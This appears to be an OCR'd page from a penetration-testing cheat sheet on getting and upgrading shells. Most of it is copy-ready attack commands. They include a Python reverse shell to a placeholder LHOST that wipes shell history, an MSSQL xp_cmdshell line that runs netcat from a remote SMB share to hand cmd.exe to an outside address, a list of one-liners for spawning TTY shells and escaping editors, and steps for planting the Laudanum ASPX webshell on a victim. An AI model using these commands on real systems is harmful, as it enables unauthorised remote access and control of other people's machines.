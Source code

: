 ```python
# TCP
python -c "import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('LHOST',LPORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv('HISTFILE','/dev/null');pty.spawn(['/bin/bash','-i']);s.close();exit();"
```

#### MSSQL xp\_cmdshell

```powershell
xp_cmdshell \\192.168.49.136\share\nc.exe -e cmd.exe 192.168.49.136 80
```

### Spawning a TTY Shell with Python

```shell
python -c 'import pty; pty.spawn("/bin/sh")' 
python3 -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")' 
python3 -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh -i
/bin/bash -i

perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh"; # should be run from a script
ruby: exec "/bin/sh" # should be run from a script
lua: os.execute('/bin/sh') # should be run from a script
awk 'BEGIN {system("/bin/sh")}'
find . -exec /bin/sh \; -quit
vim -c ':!/bin/sh'

# Vim escape
vim
:set shell=/bin/sh
:shell
```

### Webshell

#### Laudanum

Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The repo includes injectable files for many different web application languages to include `asp, aspx, jsp, php,` and more. Laudanum is built into Parrot OS and Kali by default. For any other distro, you will likely need to pull a copy down to use. You can get it [here](https://github.com/jbarcia/Web-Shells/tree/master/laudanum).

The Laudanum files can be found in the `/usr/share/webshells/laudanum` directory

```bash
cp /usr/share/webshells/laudanum/aspx/shell.aspx .
```
